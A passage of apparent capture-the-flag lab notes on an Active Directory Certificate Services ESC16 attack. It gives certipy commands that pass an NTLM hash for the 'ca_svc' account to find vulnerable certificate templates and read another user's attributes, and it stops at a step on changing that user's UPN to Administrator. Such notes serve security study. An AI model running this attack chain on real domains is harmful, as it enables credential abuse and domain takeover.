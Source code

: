 
```bash
certipy find -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -stdout -vulnerable
```

![[Pasted image 20251005180905.png]]
[Documentation](https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/)

> Requires a low level account access and account with ESC 16 priv capabilities

Read low level account attributes
```bash
certipy account -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user p.agila read
```

Change users UPN (UserPrinicipalName) to Administrator